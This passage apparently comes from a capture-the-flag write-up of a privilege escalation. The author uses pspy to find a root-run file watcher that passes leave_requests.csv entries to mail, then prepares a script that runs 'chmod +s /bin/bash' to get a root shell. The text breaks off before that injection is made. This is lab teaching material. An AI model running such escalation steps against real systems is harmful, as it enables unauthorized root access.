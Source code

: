 Maybe there's something to do with that, looking at things with pspy we can observe this:
```
2023/01/16 04:22:49 CMD: UID=0    PID=914    | /bin/bash /root/scripts/notify.sh
2023/01/16 04:22:49 CMD: UID=0    PID=913    | inotifywait --quiet --monitor --event modify /var/www/private/leave_requests.csv
2023/01/16 04:22:49 CMD: UID=0    PID=903    | /bin/bash /root/scripts/notify.sh
```

Looks like some tool that reacts to file changes, and it's running as root, probably good for us.
```bash
$ inotifywait -h|head -3
inotifywait 3.22.1.0
Wait for a particular event on a file or set of files.
Usage: inotifywait [ options ] file1 [ file2 ] [ file3 ] [ ... ]
```

As can be observed above in the pspy64 output, the next PID that spawed is a shell script called notify.sh, is this triggering emails? Let's try it out, it's suposed to react when the file changes, so let's add a line to it: 
```bash
$ cat << EOF >> leave_requests.csv
> bean.hill.meaaaermblblkblkblbk
> EOF
$ cat leave_requests.csv
bean.hill.meaaaermblblkblkblbk
```

and we see this happening in pspy
```
2023/01/16 04:43:15 CMD: UID=0    PID=3622   | mail -s Leave Request: bean.hill.meaaaermblblkblkblbk christine
2023/01/16 04:43:15 CMD: UID=0    PID=3623   | /usr/sbin/sendmail -oi -f root@awkward -t
2023/01/16 04:43:15 CMD: UID=0    PID=3624   | /usr/sbin/postdrop -r
2023/01/16 04:43:15 CMD: UID=0    PID=3625   | cleanup -z -t unix -u -c
2023/01/16 04:43:15 CMD: UID=0    PID=3632   | mail -s Leave Request: bean.hill.meaaaermblblkblkblbk christine
2023/01/16 04:43:15 CMD: UID=0    PID=3630   | trivial-rewrite -n rewrite -t unix -u -c
2023/01/16 04:43:15 CMD: UID=0    PID=3633   | /usr/sbin/sendmail -oi -f root@awkward -t
2023/01/16 04:43:15 CMD: UID=0    PID=3634   | local -t unix
2023/01/16 04:43:15 CMD: UID=0    PID=3635   | /usr/sbin/postdrop -r
2023/01/16 04:43:15 CMD: UID=0    PID=3636   | local -t unix
```

Let's try to use the mail GTFO to set bash to SUID, for that we'll start by dropping a SUID script in /tmp
```bash
$ cat << EOF > asd
> #!/bin/bash
> chmod +s /bin/bash
> EOF
$ cat asd
#!/bin/bash
chmod +s /bin/bash
$ mv asd asd.sh
$ cat asd.sh
#!/bin/bash
chmod +s /bin/bash
$ chmod +x asd.sh
$ ls -la asd.sh
-rwxr-xr-x 1 www-data www-data 31 Jan 16 05:12 asd.sh
```
